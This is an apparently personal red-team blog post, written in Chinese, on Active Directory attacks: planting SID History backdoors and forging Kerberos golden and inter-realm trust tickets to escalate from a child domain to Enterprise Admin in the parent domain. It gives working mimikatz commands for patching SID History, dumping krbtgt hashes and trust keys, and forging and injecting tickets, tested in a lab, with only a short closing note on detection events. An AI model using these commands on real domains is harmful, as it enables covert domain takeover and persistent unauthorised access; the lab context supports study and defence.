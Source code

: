```yaml
---
layout:     post
title:    域渗透-SID History权限维持及域信任攻击
subtitle:  SID History权限维持及域信任攻击
date:       2021-02-17
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 域渗透
    - 红队
    - 内网渗透
---
```

# 域渗透-SID History权限维持及域信任攻击

## SID介绍
每个用户帐号都有一个对应的安全标识符（Security Identifiers，SID），SID用于跟踪主体在访问资源时的权限。如果存在两个同样SID的用户，这两个帐户将被鉴别为同一个帐户，原理上如果帐户无限制增加的时候，会产生同样的SID，在通常的情况下SID是唯一的，他由计算机名、当前时间、当前用户态线程的CPU耗费时间的总和三个参数决定以保证它的唯一性。  
为了支持AD牵移，微软设计了SID History属性，SID History允许另一个帐户的访问被有效的克隆到另一个帐户。  
一个完整的SID包括：  
- 用户和组的安全描述  
- 48-bit的ID authority  
- 修订版本  
- 可变的验证值Variable sub-authority values  

例：S-1-5-21-310440588-250036847-580389505-500  
第一项S表示该字符串是SID；第二项是SID的版本号，对于2000来说，这个就是1；然后是标志符的颁发机构（identifier authority），对于2000内的帐户，颁发机构就是NT，值是5。然后表示一系列的子颁发机构，前面几项是标志域的，最后一个标志着域内的帐户和组。    
可以注意到最后一个标志位为500，这个500是相对标识符（Relative Identifer, RID），账户的RID值是固定的。一般克隆用户原理就是篡改其他用户的RID值使系统认为对应用户是管理员。  
常见的RID：500-管理员  519-EA  501-Guest  

## SID History利用前提
1.域间存在信任关系。  
2.开启SID History信任。  

默认情况下新域添加到域树或林根域中，创建的是双向传递信任。  


## 测试环境
10.10.10.10  DC.de1ay.com  
10.10.10.11  subdc.sub.de1ay.com  
10.10.10.201 pc.sub.de1ay.com  


## SID History单一域内利用
SID History工作在单一域内时，域中的普通帐户可以包含SID，若这个SID是一个特权帐户或组，那就可以在不作为域管组成员的情况下授予普通用户域管权限，相当于一个域权限维持后门。  

假定现在有一个普通权限的域成员testc，域为sub.de1ay.com。  
没有操作前是无法访问域控盘符。  
![1](/img/210217_refuse.png)   
通过mimikatz执行命令：  
```
privilege::debug
sid::patch
sid::add /sam:testc /new:domain sid -500  # RID 500 域管理员 
sid::add /sam:testc /new:administrator    #  这样也行
```   
可以看到sIDHitory中多了一条。  
![2](/img/210217_sid.png)   
此时再访问域控。  
![3](/img/210217_success.png)   
最后可以通过`mimikatz "sid::clear /sam:testc" exit`清除。   

## SID History在域树中的利用
对于同一个域树中的父子域来说，如果能获得子域中的高权限用户，就可以将该用户的SID赋予EA权限（519），这样对于父域也是高权限用户。假设我们已经拿下子域sub.de1ay.com的域控权限，即可以利用该方法在父域提权。需要的前提信息：
- 子域的Krbtgt Hash 和 域SID  
- 父域的SID  


对比下黄金票据的条件：  
```
mimikatz "kerberos::golden /domain:<domain> /sid:<SID> /krbtgt:krbtgt ntlm hash /user:<username> /ptt" exit  
``` 
只多了一个父域的SID，即sids。  
先在子域的域控权限下获取krbtgt的NTLM hash。  
![4](/img/210217_krbtgt.png)    
然后在子域内的机器（pc.sub.de1ay.com）上运行mimikatz:  
```
mimikatz "kerberos::golden /domain:<domain> /sid:<current SID> /sids:<target domain SID>-519 /krbtgt:krbtgt ntlm hash /user:<username> /ptt" exit  
```
可以发现已经有权限访问父域控相关内容。  
![5](/img/210217_dirdc.png)    


## 域信任攻击父域
还是用的上面的环境。  
查看域信任关系：  
```
nltest /domain_trusts  
```  
![6](/img/210217_domaintrust.png)  

使用mimikatz在域控制器中导出并伪造信任密钥，请求访问目标域中目标服务的TGS票据,创建具有sIDHistory的票据，对目标域进行安全测试。  
在subdc.sub.de1ay.com中使用mimikatz获取需要的信息:  
```
mimikatz.exe privilege::debug "lsadump::trust /patch" exit
```
获取其中的域信任密钥及两个SID（当前域及目标域）。  
![7](/img/210217_rc4.png)  
获取上述信息后，在子域内的机器（pc.sub.de1ay.com）中使用普通用户（sub\testc）权限执行如下命令创建信任票据。  
```
mimikatz "kerberos::golden /domain:<current domain (sub.de1ay.com)> /sid:<current SID> /sids:<target domain SID>-519 /rc4:<rc4_hmac_nt> /user:<username> /service:krbtgt /target:<target domain (de1ay.com)>  /ticket:de1ay.kirbi" exit
```  
![8](/img/210217_kirbi.png)   
然后尝试用rubeus来获取票据，发现失败了。  
![9](/img/210217_rubeus.png)   
最后换回了老工具。  
![10](/img/210217_asktgs.png)   
最后将生成的票据注入进内存，就可以了。  
![11](/img/210217_klist.png)   

## 总结
针对SID History攻击防范还是比较容易的，特征比较明显（sidHistory属性），还有日志中的4765 4766事件。  
针对根域攻击的方式还有委派，这里先鸽着，想起来了再补充


## 参考
[http://t3ngyu.leanote.com/post/7697c6e55644](http://t3ngyu.leanote.com/post/7697c6e55644)    
[https://www.cnblogs.com/mq0036/p/3518542.html](https://www.cnblogs.com/mq0036/p/3518542.html)  
[https://www.cnblogs.com/micr067/p/12984136.html](https://www.cnblogs.com/micr067/p/12984136.html)    
[https://github.com/NotScortator/asktgs_compiled](https://github.com/NotScortator/asktgs_compiled)   


